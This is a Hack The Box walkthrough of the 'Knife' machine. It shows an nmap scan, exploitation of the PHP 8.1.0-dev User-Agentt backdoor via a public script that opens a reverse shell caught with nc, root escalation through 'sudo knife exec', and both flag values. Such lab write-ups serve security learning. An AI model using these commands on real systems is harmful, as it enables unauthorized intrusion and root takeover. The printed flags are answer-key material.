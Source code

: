 # HTB Walkthrough - Knife

**Machine Name**: Knife  
**Target IP**: 10.129.11.28
![website](img/website.png)
---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Knife 10.129.11.28
```
![nmap](img/nmap.png)
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

> ✅ **Open TCP Ports:** 2

---

## 🌐 Web Enumeration

### 🔎 Wappalyzer & Headers

- Web Server: **Apache/2.4.41 (Ubuntu)**
- Programming Language: **PHP 8.1.0-dev**
- Powered by: **Ubuntu**
![wrapper](img/wrapper.png)
### 🔥 Exploitable Header

According to [Juniper Threat Labs](https://www.juniper.net/us/en/threatlabs/ips-signatures/detail.HTTP:PHP:PHP-810-DEV-AGENTT-RCE.html), PHP 8.1.0-dev is vulnerable to RCE via the `User-Agentt` header.
![exploit](img/exploit.png)
> ✅ **RCE Header:** `User-Agentt`

---

## ⚔️ Exploitation

### 🧪 RCE via `User-Agentt` Header

GitHub PoC: [PHP 8.1.0-dev RCE Exploit](https://github.com/j4k0m/PHP-8.1.0-dev-RCE)
![github](img/github.png)
#### Payload Script
```bash
./exploit.sh 10.129.11.28 10.10.14.156 9999
```

#### Listener
```bash
nc -nlvp 9999
```
![reverseshell](img/reverseshell.png)
### 💻 Reverse Shell Access

```bash
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

> ✅ **Web Server Running As:** james

---

## 🧍 User Flag

```bash
cat /home/james/user.txt
63ed48a287ee1f103e197e2e027cb4cf
```
![userflag](img/userflag.png)
> 🏁 **User Flag:** `63ed48a287ee1f103e197e2e027cb4cf`

---

## ⬆️ Privilege Escalation

### 🔍 Sudo Rights

```bash
sudo -l
```
![sudo-l](img/sudo-l.png)
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

> ✅ **Sudo Binary:** `/usr/bin/knife`

### 🔓 Root Shell via Knife

Reference: [GTFOBins - knife](https://gtfobins.github.io/gtfobins/knife/#sudo)
![gtfo](img/gtfo.png)
```bash
sudo knife exec -E 'exec "/bin/sh"'
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 👑 Root Flag
![rooflag](img/rooflag.png)
```bash
cat /root/root.txt
1888d3c38b467903dfa81d9ace919f9e
```

> 🏁 **Root Flag:** `1888d3c38b467903dfa81d9ace919f9e`
